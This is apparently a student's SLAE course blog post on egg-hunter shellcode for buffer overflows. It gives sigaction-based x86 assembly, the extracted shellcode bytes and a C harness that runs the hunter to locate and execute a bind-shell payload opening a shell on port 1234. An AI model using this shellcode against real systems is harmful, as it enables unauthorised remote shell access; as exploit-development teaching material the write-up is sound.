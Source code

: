 ```yaml
---
title: "SLAE Assignment 3"
date: 2018-02-07
published: true
---
```


### SecurityTube Linux Assembly Expert (SLAE) Course Exercises

[GitHub code repo](https://github.com/wsummerhill/SLAE)

This assignment requires us to look into the concept of “egg hunters” when it comes to buffer overflows and reverse engineering. 

Egg hunting is used in buffer overflows when there is a limited buffer space for executing shellcode at the end of the buffer which would normally prevent the use of a payload. The egg hunter is used to search through the entire range of memory in the heap or stack for our shellcode and redirect execution to it.

There is a well known paper on egg hunting by Skape which can be found here 

The egg is going to be 8 bytes in size - 4 byte egg repeated twice - converted to hex. 

When the program finds the tag it will redirect execution to where our shellcode is in memory.

The Sigaction system call allows multiple addresses to be validated at a single time by taking advantage of the kernel’s verify_area routine which is used, for instance, on structures that have been passed in from user-mod eto a system call.

It will be used to allow for validating of user-mode addresses and has the following format:
```bash
int sigaction(int signum, const struct sigaction *act, struct
sigaction *oldact)
```
Where
- gnum = EBX
- t = ECX
- dact = EDX

The system call for sigaction is 67 decimal (0x43 hex) which we’ll use in EAX.
Now onto the egg hunter code in Assembly.


```cpp
;Author: Will Summerhill
;Egg hunter code 
global _start

section .text
_start:

entry:
  or cx, 0xfff

next:
  inc ecx              ;page counter
  push byte +0x43      ;sigaction system call
  pop eax              ;store sigaction syscall into EAX
  int 0x80             ;execute sigaction
  cmp al, 0xf2         ;check if there was a segFault (if AL = 0xf2)
  jz entry             ;jump if zero flag (ZF) set from above cmp
  mov eax, 0x99999999  ;store egg into EAX
  mov edi, ecx         ;move into EDI to validate address

  ;EAX is egg, EDI is next address to validate
  scasd                ;scan string by comparing EAX and EDI, increment EDI by 4 
  jnz next             ;jump if zero flag (ZF) is not set from above compare
  
  scasd                ;will execute when first bytes of egg matched, compare the second half
  jnz next             ;match failed - try again from next address
  jmp edi              ;egg found - jump to payload in EDI
```

We can test this by determining the shellcode of the above program with the command objdump -d A3 -M intel and then copying it into our C program for execution with the normal //bin/sh bind shellcode. 

```cpp
#include<stdio.h>
#include<string.h>


//extracted egg hunter shellcode
unsigned char egghunter[] = \
"\x66\x81\xc9\xff\x0f"         //or     cx,0xfff
"\x41"                     //inc    ecx
"\x6a\x43"                  //push   0x43
"\x58"                     //pop    eax
"\xcd\x80"                  //int    0x80
"\x3c\xf2"                  //cmp    al,0xf2
"\x74\xf1"                  //je     80480a0 <_start>
"\xb8\x99\x99\x99\x99"          //mov    eax,0x99999999 --> EGG
"\x89\xcf"                  //mov    edi,ecx
"\xaf"                     //scas   eax,DWORD PTR es:[edi]
"\x75\xec"                  //jne    80480a5 <next>
"\xaf"                     //scas   eax,DWORD PTR es:[edi]
"\x75\xe9"                  //jne    80480a5 <next>
"\xff\xe7";       //jmp    edi


//add egg twice to beginning of bind shellcode below
//listens on localhost port 1234

unsigned char code[] = \
"\x99\x99\x99\x99\x99\x99\x99\x99\x31\xc0\xb0\x02\x31\xdb\xb3\x01\x31\xd2\x52\x53\x50\x31\xc9\x89\xe1\x31\xc0\xb0\x66\xcd\x80\x89\xc2\x31\xdb\x53\x66\x68\x04\xd2\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52\x31\xc0\xb0\x66\xb3\x02\x89\xe1\xcd\x80\x6a\x01\x52\x31\xc0\x31\xdb\xb0\x66\xb3\x04\x89\xe1\xcd\x80\x31\xc0\x31\xdb\x50\x50\x52\x89\xe1\xb0\x66\xb3\x05\xcd\x80\x89\xc2\x31\xc0\xb0\x3f\x89\xd3\x31\xc9\xcd\x80\x31\xc0\xb0\x3f\x89\xd3\x41\xcd\x80\x31\xc0\xb0\x3f\x89\xd3\x41\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80";

main()
{
  printf("Shellcode Length with 8 byte egg:  %d\n", strlen(code));
  printf("Egg hunter length: %d bytes\n", strlen(egghunter));
  int (*ret)() = (int(*)())egghunter; //return egghunter
  ret();
}
```

Now compiling the shellcode and executing we get a bind shell listening on port 1234 while using the egg hunter as the first staged payload which will redirect program execution to the normal bind shell that is prepended with the egg.  

![EmbeddedImage](https://user-images.githubusercontent.com/35749735/206793505-b8a2f3ef-eb5b-4de8-b413-5185b76870c2.png)

![EmbeddedImage1](https://user-images.githubusercontent.com/35749735/206793522-3e98469d-90c3-4006-896d-7c0872b5266d.png)

----------

The assembly code can also be found here on my [Github](https://github.com/wsummerhill/SLAE/blob/master/Assignment%201).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE-1109
